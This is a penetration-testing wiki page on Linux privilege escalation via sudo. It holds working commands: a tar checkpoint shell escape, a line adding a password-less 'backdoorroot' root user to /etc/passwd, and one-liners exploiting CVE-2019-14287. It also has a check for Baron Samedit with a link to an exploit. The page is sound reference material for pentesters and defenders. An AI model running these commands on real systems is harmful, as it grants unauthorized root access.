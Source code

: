 # 🛠️ SUDO

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

`sudo` \(Super User DO\) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user \(by default, the superuser\).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers \( 😯_I know right_🧠 \). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 \(read-only\) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.

![](../../../.gitbook/assets/sudoers_config.png)

## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure misconfiguration, or by exploiting the program's vulnerabilities.

### Configuration

#### Default permissions

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following \(default config for a new sudoer\).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo <program>`.

#### Living off the land

While, the configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

#### Escalation tricks

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### Vulnerabilities

#### CVE-2019-14287

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a `sudo -u \#$((0xffffffff))` command.

Exploiting the bug requires that the user have sudo privileges that allow them to run commands with an arbitrary user ID. Typically, this means that the user's sudoers entry has the special value ALL in the Runas specifier. Sudo supports running a command with a user-specified user name or user ID, if permitted by the sudoers policy.

**Find vulnerable users :**

```bash
grep -e '(\s*ALL\s*,\s*!root\s*)' /etc/sudoers
# specified by uid
grep -e '(\s*ALL\s*,\s*\!#0\s*)' /etc/sudoers
```

Sudo uses the `setresuid(2)` and `setreuid(2)` system calls to change the user ID before running the command. So if you try to enter a negative user id `-1` \(or its 32-bit unsigned equivalent `4294967295`\), `setresuid(2)` and `setreuid(2)` cannot set a negative user id and you're left with the user id sudo is running with : `0`.

Therefore `sudo -u#-1 id -u` or `sudo -u#4294967295 id -u` will actually return `uid=0` and run command as root.

**Exploits** :

* `sudo -u#-1 sh -p`
* `sudo -u#4294967295 sh -p`

**Additional References** :

* [https://nvd.nist.gov/vuln/detail/CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)

#### CVE-2021-3156 - Heap-Based Buffer Overflow in Sudo \(Baron Samedit\)

Sudo before 1.9.5p2 has a Heap-based Buffer Overflow, allowing privilege escalation to root via "sudoedit -s" and a command-line argument that ends with a single backslash character. To test if a system is vulnerable or not, login to the system as a non-root user and run command `sudoedit -s /`.

* If the system is patched, it will respond with an error that starts with `usage:` such as :

```text
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
```

* If the system is vulnerable, it will respond with an error that starts with `sudoedit:` such as :

```text
$ sudoedit -s /
[sudo] password for user: 
sudoedit: /: not a regular file
```

**Exploits** :

To exploit a vulnerable system, you can use this exploit : [https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156\_one\_shot](https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot)

**Additional References** :

* Original Advisory : [https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)
* [https://nvd.nist.gov/vuln/detail/CVE-2021-3156](https://nvd.nist.gov/vuln/detail/CVE-2021-3156)

## References

{% embed url="https://gtfobins.github.io/\#+sudo" caption="" %}

